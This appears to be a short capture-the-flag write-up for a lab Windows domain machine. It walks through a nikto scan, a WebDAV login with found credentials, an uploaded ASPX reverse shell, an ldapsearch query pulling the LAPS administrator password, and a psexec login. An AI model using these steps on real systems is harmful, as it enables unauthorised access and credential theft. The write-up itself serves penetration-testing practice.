







We can check nikto:
```
nikto -h http://192.168.192.122
```

Trying cadaver:
```
cadaver http://192.168.192.122/
```

We can login using fmcsorley's creds

Now we can upload a reverse shell.

Access the file using http://192.168.192.122/shell.aspx


Now we get a reverse shell:


Now checking at `C:\Program Files`
LAPS is installed.

Now to get the admin password
```
ldapsearch -x -H ldap://192.168.192.122 -D 'hutch\fmcsorley' -w 'CrabSharkJellyfish192' -b 'dc=hutch,dc=offsec' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
```
We get the admin password:


Now we can login with psexec:
```
psexec.py administrator@192.168.192.122
```
